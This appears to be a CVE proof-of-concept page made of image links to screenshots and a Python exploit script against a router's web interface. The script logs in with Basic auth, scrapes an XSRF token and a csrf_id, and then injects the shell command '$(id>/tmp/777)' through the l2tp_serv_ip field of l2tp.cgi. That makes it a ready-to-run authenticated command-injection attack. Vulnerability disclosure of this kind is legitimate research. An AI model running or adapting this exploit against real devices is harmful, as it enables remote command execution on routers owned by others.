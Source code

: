 ![image](https://github.com/jiangly027/CVE/assets/106513072/2bfa4a58-44ab-440c-b3b5-bde4029eebf4)
<img src="https://cdn.nlark.com/yuque/0/2023/png/36169506/1702717343086-ce9881cb-6d3d-4817-b6da-10ac740cab4e.png" alt="图片alt" title="图片title">

<img src="https://cdn.nlark.com/yuque/0/2023/png/36169506/1702717363437-27e1c73b-3a74-4faa-a0b9-c75991015416.png" alt="图片alt" title="图片title">
<img src="https://cdn.nlark.com/yuque/0/2023/png/36169506/1702705433346-beee11f2-3550-499a-904a-0454fd5d032d.png" alt="图片alt" title="图片title">
<img src="https://cdn.nlark.com/yuque/0/2023/png/36169506/1702705679159-accb6729-d38c-4023-a5f4-e1c65eb30b0a.png?x-oss-process=image%2Fresize%2Cw_1031%2Climit_0" alt="图片alt" title="图片title">

<img src="https://cdn.nlark.com/yuque/0/2023/png/36169506/1702716601097-9373a536-f372-42b6-8d0c-232504d5cecc.png" alt="图片alt" title="图片title">

<pre>
import requests
import base64
import re

target = '192.168.1.1'
username = 'admin'
passwd = '123'
username_passwd = username + ":" + passwd
auth = base64.b64encode(username_passwd.encode('utf-8')).decode("utf-8")
cmd = "$(id>/tmp/777)"
print(auth)

#request 1 : get XSRF_TOKEN
burp0_url = "http://" + target + ":80/BAS_l2tp.htm"
burp0_cookies = {"XSRF_TOKEN": "2267229739"}
burp0_headers = {"User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/112.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Authorization": "Basic 123123", "Connection": "close", "Upgrade-Insecure-Requests": "1"}
response1 = requests.get(burp0_url, headers=burp0_headers, cookies=burp0_cookies)

if 'Set-Cookie' in response1.headers:
    set_cookie = response1.headers['Set-Cookie']
    print(f'The Set-Cookie value is: {set_cookie}')
else:
    print('No Set-Cookie field in the response header')

pattern = r'(?<=\=)([^;]*)'
XSRF_TOKEN = re.findall(pattern, set_cookie)[0]
print(XSRF_TOKEN)

#request 2 : get csrf_id
burp0_cookies = {"XSRF_TOKEN": XSRF_TOKEN}
burp0_headers = {"User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/112.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Authorization": "Basic " + auth, "Connection": "close", "Referer": "http://" + target + "/IPV6_disable.htm", "Upgrade-Insecure-Requests": "1"}
response2 = requests.get(burp0_url, headers=burp0_headers, cookies=burp0_cookies)
pattern = r'cgi\?id=([\w\d]+)'
csrf_id = re.search(pattern, response2.text).group(1)
print("csrf_id is :" + csrf_id)

#request 3 : send payload
burp0_url = "http://" + target + ":80/l2tp.cgi?id=" + csrf_id
burp0_data = {"apply": "Apply", "l2tp_serv_ip":cmd,"wan_proto": "l2tp","static_l2tp_enable":"1","l2tp_gateway":"192.168.0.1","l2tp_user_netmask":"255.255.255.0"}
burp0_headers = {"User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/112.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Content-Type": "text/plain", "Origin": "http://" + target, "Authorization": "Basic " + auth, "Connection": "close", "Referer": "http://" + target + "/VLAN_IPTV.htm", "Upgrade-Insecure-Requests": "1"}

response3 = requests.post(burp0_url, headers=burp0_headers, cookies=burp0_cookies, data=burp0_data)

print('end!!!')
